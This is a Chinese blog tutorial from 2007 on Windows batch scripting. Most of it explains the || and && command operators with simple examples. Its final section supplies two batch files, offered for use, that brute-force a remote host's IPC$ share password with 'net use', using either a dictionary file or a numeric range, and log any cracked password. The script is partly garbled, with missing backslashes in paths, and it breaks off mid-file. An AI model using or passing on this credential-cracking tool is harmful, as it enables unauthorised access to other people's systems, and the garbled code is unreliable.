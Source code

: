 ```yaml
---
title: 批处理教程（2）
description: 接昨天的批处理教程（1）
date: 2007-12-08 01:58:27
category: 教程与电子书
tags: ['动画教程', 'DOS批处理bat']
post_id: 283
alias: processing-batch-tutorial-part2
ViewNums: 4578
---
```

接昨天的[**批处理教程（1）**](/blog/processing-batch-tutorial-part1)**16、||**

这个命令的用法和&&几乎一样，但作用刚好和它相反：利用这种方法在执行多条命令时，当遇到一个执行正确的命令就退出此命令组合，不再继续执行下面的命令。题目：查看当前目录下是否有以s开头的exe文件，如果有则退出。例十九：

@echo off
dir s*.exe || exit

其实这个例子是有破绽的，你看出来了吗？其实很简单，自己试试就知道了嘛：如果存在那个exe文件，就退出；如果不存在那个exe文件，也退出！为什么？因为如果不存在那个.exe文件，则前一条命令dir s*.exe执行肯定是不成功的，所以就继续执行exit，自然就退出了，呵呵。那么如何解决题目给出的问题呢？看例二十：

@echo off
dir s*.exe || echo Didn't exist file s*.exe & pause & exit

这样执行的结果，就能达到题目的要求，是否存在s*.exe将出现两种结果。这里加暂停的意思，当然是让你能看到echo输出的内容，否则一闪而过的窗口，echo就白写了。

给出两个更好研究优先级（同时也是更难理解）的脚本，仔细研究它们的区别，以便彻底理解各种命令的优先级顺序，对以后自己利用这些命令写脚本有很大的好处----不会出错！OK，请看例二十一和例二十二：
例二十一：

@echo off
dir a.ttt /a & dir a.txt || exit

例二十二：

@echo off
dir a.ttt /a && dir a.txt || exit

警告：患有心脑血管病的朋友请不要研究以上两例，否则轻者头大如斗，重者血管爆裂。任何人由于研究这两个脚本的区别而造成的任何事故由自己或其合法监护人负责，与本人和本论坛无关。特此警告！

有关管道命令和组合命令就大概介绍到这里了，不知道聪明的你是否理解？呵呵，能理解就成天才了，除非你以前就已经掌握！千万别小看了这几个鬼命令，大棒槌是我的说，简直就不是人学的东西！但我还是静下心来研究了一番，最后得出的结论如上所述，已经一点不剩的交给你了，希望你好好收藏并消化吸收，当然有错误被你发现了，或者不完整的地方被你看出来了，请赶紧告诉我一声！

这几个命令真的把我的头都搞大了。在网上有一篇流传很广的批处理教程：“简明批处理教程”，虽然说的比较全面，但看起来很不过瘾。在对for等命令介绍时就一个for /? > a.txt & start a.txt完事了（当然这一点上我不能说人家什么，毕竟我连for /?都没给出），而对上述管道命令和组合命令、以及这篇教程以后将讲到的用批处理好啊作注册表等方面根本没有介绍。我之所以花整整一章来讲管道命令和组合命令，是因为他们才是批处理的精华和灵魂，能否正确利用好这几个命令，是能否掌握批处理的前提条件。如for、set等DOS命令的问题，可以从DOS的角度出发专门有针对性的学习，但有关这几个命令的问题，却是不容易精通掌握的----他们之间的关系太复杂了！
将下列代码存为bat文件
1、如果用字典破解：pass.bat 字典文件路径及名称 主机 用户名
2、如果用数字破解：pass.bat 起始数 步长 结束数 主机 用户名
密码破解出来之后，存放于c:pass.txt文件里面。
将下列代码存为pass.bat文件
@echo off
echo ------------------------------------------------------------------- >>c:pass.txt
echo ------------------------------------------------------------------- >>c:pass.txt
date /t >>c:pass.txt
time /t >>c:pass.txt
echo 破解结果： >>c:pass.txt
if "%6"=="1" goto 大棒槌是我的说2
:大棒槌是我的说1
start "正在破解" /min cmd /c for /f %%i in (%1) do call test.bat %2 "%%i" %3
goto quit
:大棒槌是我的说2
start "正在破解" /min cmd /c for /l %%i in (%1,%2,%3) do call test.bat %4 "%%i" %5
:quit
将下列代码存为test.bat
net use \%1ipc$ %2 /user:"%3"
goto answer%ERRORLEVEL%